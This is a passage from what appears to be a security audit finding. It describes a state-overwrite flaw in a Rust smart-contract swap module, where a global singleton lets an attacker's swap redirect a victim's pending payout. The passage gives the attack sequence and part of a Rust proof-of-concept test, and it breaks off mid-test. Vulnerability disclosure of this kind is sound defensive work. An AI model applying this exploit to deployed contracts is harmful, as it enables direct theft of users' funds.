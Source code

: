 The vulnerability manifests in this execution flow:
1. User A initiates a swap, saving their state to the global singleton
2. Before User A's SubMsg executes, User B initiates their own swap
3. User B's swap overwrites the global state with their own data
4. When User A's SubMsg reply executes, it loads User B's state
5. User A's funds are sent to User B's address

## ⚠️ Exploitability

**Is this vulnerability exploitable?** **Yes - Trivially exploitable**

### Attack Scenario: Direct Fund Theft via State Hijacking

```rust
// Attack sequence:
// Block N:
// 1. Victim initiates swap of 10,000 USDT -> INJ
//    - SWAP_OPERATION_STATE saved with victim's data
//    - SubMsg created for atomic order

// 2. Attacker front-runs with their own swap (1 USDT -> INJ)
//    - SWAP_OPERATION_STATE overwritten with attacker's data
//    - Attacker's sender_address now in global state

// 3. Victim's SubMsg reply executes (handle_atomic_order_reply)
//    - Loads SWAP_OPERATION_STATE (now contains attacker's data)
//    - Line 229: to_address: swap.sender_address.to_string()
//    - Sends victim's 10,000 USDT worth of INJ to attacker

// 4. Attacker receives victim's funds
```

### Proof of Concept

```rust
#[test]
fn exploit_state_overwrite_reentrancy() {
    let mut deps = mock_dependencies();
    let env = mock_env();
    
    // Step 1: Victim initiates large swap
    let victim_info = mock_info("victim", &coins(10000_000000, "USDT"));
    let victim_msg = ExecuteMsg::Swap {
        target_denom: "INJ".to_string(),
        swap_quantity_mode: SwapQuantityMode::MinOutputQuantity(FPDecimal::from(100u128)),
    };
    
    // This saves victim's state to global singleton
    let victim_response = execute(deps.as_mut(), env.clone(), victim_info, victim_msg).unwrap();
    let victim_submsg_id = victim_response.messages[0].id;
    
    // Step 2: Attacker overwrites state before victim's SubMsg executes
    let attacker_info = mock_info("attacker", &coins(1_000000, "USDT"));
    let attacker_msg = ExecuteMsg::Swap {
        target_denom: "INJ".to_string(),
        swap_quantity_mode: SwapQuantityMode::MinOutputQuantity(FPDecimal::from(1u128)),
    };
    
    // This overwrites the global state with attacker's address
    execute(deps.as_mut(), env.clone(), attacker_info, attacker_msg).unwrap();
    
    // Step 3: Victim's SubMsg reply executes
    let victim_reply = Reply {
        id: victim_submsg_id,
```